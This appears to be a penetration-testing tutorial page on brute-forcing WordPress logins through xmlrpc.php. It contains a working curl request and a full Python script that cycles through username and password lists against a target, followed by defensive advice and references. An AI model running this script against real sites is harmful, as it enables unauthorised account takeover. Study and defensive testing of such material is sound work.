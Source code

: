 # Brute Force

### Brute Force via xmlrpc.php

- xmlrpc.php is a WordPress file that allows external programs or apps to interact with a site remotely, such as publishing posts, managing comments, or performing administrative actions. It exists mainly for backward compatibility and remote management, but if left unrestricted, it increases the site’s attack surface and can be exploited by attackers.

- Attackers can send repeated login attempts directly to xmlrpc.php, often batching multiple passwords in a single request, which can bypass protections like rate limits or CAPTCHAs on the standard login page. The server responses clearly indicate whether the credentials are correct, making brute force attacks faster and harder to detect if proper security measures—like 2FA, rate limiting, or restricting access to XML-RPC—are not in place.

The request is below:

```
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params>
<param><value>admin</value></param><param><value>pass</value></param></params></methodCall>" http://examplewp.com/xmlrpc.php
```

Example:

![xmlrpc_bruteforce](./img/xmlrpc_brute_force.png)


This request can be turned into a brute force attack with a burp suite intruder, wpscan or a simple script. Here's a simple brute force script:


```python
#!/usr/bin/env python3
import requests
import argparse

parser = argparse.ArgumentParser(description="XML-RPC brute force test (lab only)")
parser.add_argument("-u", "--url", required=True, help="Target WordPress xmlrpc.php URL")
parser.add_argument("-U", "--userlist", required=True, help="File containing usernames")
parser.add_argument("-P", "--passlist", required=True, help="File containing passwords")
args = parser.parse_args()

with open(args.userlist, "r") as f:
    users = [line.strip() for line in f if line.strip()]

with open(args.passlist, "r") as f:
    passwords = [line.strip() for line in f if line.strip()]

if args.url[-3:] != "php":
    if args.url[-1] != "/":
        args.url = args.url + "/"
    args.url = args.url + "xmlrpc.php"

for username in users:
    for password in passwords:
        xml = f"""
        <methodCall>
            <methodName>wp.getUsersBlogs</methodName>
            <params>
                <param><value>{username}</value></param>
                <param><value>{password}</value></param>
            </params>
        </methodCall>
        """
        try:
            response = requests.post(args.url, data=xml, timeout=10)
            if "faultString" not in response.text:
                print(f"[SUCCESS] Username: {username} Password: {password}")
                
                break
            else:
                print(f"[FAIL] {username}:{password}")
        except requests.exceptions.RequestException as e:
            print(f"[ERROR] {username}:{password} - {e}")

```

And this script is more advanced >> https://github.com/aress31/xmlrpc-bruteforcer/

### Protection Against XML-RPC Brute Force
- To protect against brute force attacks via xmlrpc.php, site owners should either completely disable or restrict access to the endpoint if it is not needed, implement strong rate limiting to prevent repeated login attempts, enforce two-factor authentication for all admin accounts, monitor and block suspicious IPs showing repeated failures, and use security plugins or a WAF that specifically covers XML-RPC traffic, ensuring that automated requests cannot bypass standard login protections.

### Referances
- https://hackerone.com/reports/752073
- https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html
- https://logicbomb.medium.com/tale-of-3-vulnerabilities-to-account-takeover-44ba631a0304
